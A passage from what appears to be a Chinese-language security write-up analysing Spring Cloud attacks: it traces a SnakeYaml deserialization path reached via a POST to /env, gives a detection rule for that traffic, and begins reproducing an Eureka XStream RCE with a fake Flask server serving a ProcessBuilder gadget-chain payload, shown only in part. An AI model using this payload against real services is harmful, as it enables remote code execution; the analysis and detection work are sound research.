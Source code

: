 这个地方会通过 `SpringApplicationBuilder` 再次发布事件，且事件的 `StandardEnvironment` 内，将存在一个name为 `BOOTSTRAP_PROPERTY_SOURCE_NAME` （bootstrap）的 `MapPropertySource` ，这个 `MapPropertySource` 对象内存储了两个键值对：

![image-20210819171932154](/media/image-20210819171932154.png)

我们再跟进到另外一个事件监听器 `ConfigFileApplicationListener`：

![image-20210819172245653](/media/image-20210819172245653.png)

发现已经接收到事件了，并且其事件的environment属性中存在名字为bootstrap的MapPropertySource，且其内的数据和前面发布事件时设置的一样。

接下里就是一系列的环境属性的解析了，直接跟到 `org.springframework.boot.context.config.ConfigFileApplicationListener#getSearchLocations()` ：

![image-20210819173031752](/media/image-20210819173031752.png)

然后就会在 `org.springframework.boot.context.config.ConfigFileApplicationListener#load()` 中准备进行远程yml解析：

![image-20210819173235688](/media/image-20210819173235688.png)

一系列流程就不跟了，直接看到底层触发SnakeYaml反序列化的位置：

![image-20210819173517166](/media/image-20210819173517166.png)

### 流量特征

特征为POST请求设置环境变量，所以规则为：

```
METHOD = POST
URI    = /env
REG    = spring\.cloud\.bootstrap\.location=https?:\S*\.ya?ml
```

## Eureka Xstream RCE

### 攻击复现

首先准备一个Fake Eureka Server：

```python
from flask import Flask, Response

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['GET', 'POST'])
def catch_all(path):
    xml = """<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                       <string>calc</string>
                    </command>
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
```